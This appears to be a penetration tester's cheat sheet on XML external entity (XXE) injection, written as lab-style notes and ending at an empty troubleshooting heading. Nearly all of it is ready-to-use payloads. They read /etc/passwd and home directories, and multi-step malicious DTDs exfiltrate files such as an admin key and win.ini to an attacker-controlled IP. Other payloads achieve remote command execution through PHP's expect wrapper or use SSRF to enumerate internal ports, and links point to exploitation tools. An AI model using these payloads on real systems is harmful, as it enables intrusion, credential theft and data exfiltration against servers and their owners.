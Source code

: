         POC:  <?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY toreplace "3"> ]><stockCheck><productId>&toreplace;</productId><storeId>1</storeId></stockCheck>
        Files:
            <?xml version="1.0"?><!DOCTYPE data [<!ELEMENT data ANY ><!ENTITY lastname SYSTEM "file:///etc/passwd">]><org.opencrx.kernel.account1.Contact><lastName>&lastname;</lastName><firstName>Tom</firstName></org.opencrx.kernel.account1.Contact>
            <?xml version="1.0" ?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd" >]><sample>&xxe;</sample>
            <?xml version="1.0"?><!DOCTYPE data [ <!ELEMENT data ANY ><!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><database>&xxe;</database>
            <?xml version="1.0"?><!DOCTYPE foo [  <!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>
        Directory:
            <?xml version="1.0" ?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///home/" >]><sample>&xxe;</sample>
    Advanced w/ CDATA Wrapper: see file read example below
    Advanced Payload Servers:  
        https://github.com/LandGrey/xxe-ftp-server
        https://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection
        https://github.com/enjoiz/XXEinjector
    Blind Data Exfiltration:
        *TEST CALLBACK FIRST* - before hosting DTD
        Callback POC:  <!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://192.168.119.162/abc" > ]>
        File Exfiltration - Single Step:
            <?xml version="1.0"?><!DOCTYPE foo [<!ELEMENT foo ANY ><!ENTITY % xxe SYSTEM "file:///etc/hostname" ><!ENTITY callhome SYSTEM 'http://192.168.119.162/?a=%xxe;'>]><foo>&callhome;</foo>
        File Exfiltration Multi #1: 
            Injection:
                <?xml version="1.0"?><!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://192.168.119.162/malicious.dtd"> %xxe; ]>
                OR:  <?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://192.168.119.162/malicious.dtd"> ]><database>&xxe;</database>
            Host malicious.dtd locally:
                <!ENTITY % file SYSTEM "file:///home/student/adminkey.txt">
                <!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://192.168.119.162:4444/?KEY=%file;'>">
                %eval;
                %exfiltrate;
        File Exfiltration Multi #2:
            Injection:  
                <?xml version="1.0" encoding="utf-8"?>
                <!DOCTYPE data SYSTEM "http://10.10.14.6/mal.dtd">
                <data>&send;</data>
            Host mal.dtd locally:
                <!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
                <!ENTITY % all "<!ENTITY send SYSTEM 'http://10.10.14.6/?%file;'>">
                %all;
        File Exfiltration Multi #3:
            Injection:
                <?xml version="1.0" ?><!DOCTYPE hack [<!ELEMENT x ANY ><!ENTITY % alpha SYSTEM "http://192.168.119.162/payload.dtd">%alpha;%bravo;]><x>&charlie;</x>
            Host payload.dtd locally:
                <?xml version="1.0" encoding="utf-8" ?><!ENTITY % data SYSTEM "file:///c:/windows/win.ini"><!ENTITY % bravo "<!ENTITY % charlie SYSTEM 'http://192.168.119.162/?%data;'>">
    RCE via PHP 'expect' Module:
        <?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "expect://id" >]><creds><user>`&xxe;`</user></creds>
        https://gist.github.com/mosesrenegade/d81c5ca134e6b65f93422a8c09ba681b
    SSRF & CSRF via XXE:
        ex.  Enumeration:  <!DOCTYPE dtd SYSTEM "https://127.0.0.1:445">  ->  Note response times
        ex.  File load:  <?xml version="1.0"?><!DOCTYPE foo [ <!ELEMENT foo (#ANY)><!ENTITY xxe SYSTEM "https://www.example.com/text.txt">]><foo>&xxe;</foo>
        ex.  SSRF via XXE (with PHP include RCE, and sending back results):  https://0xdf.gitlab.io/2022/05/11/htb-fulcrum.html
        Uses: Target enumeration; file load; CSRF via URL parameters  
    Troubleshooting:
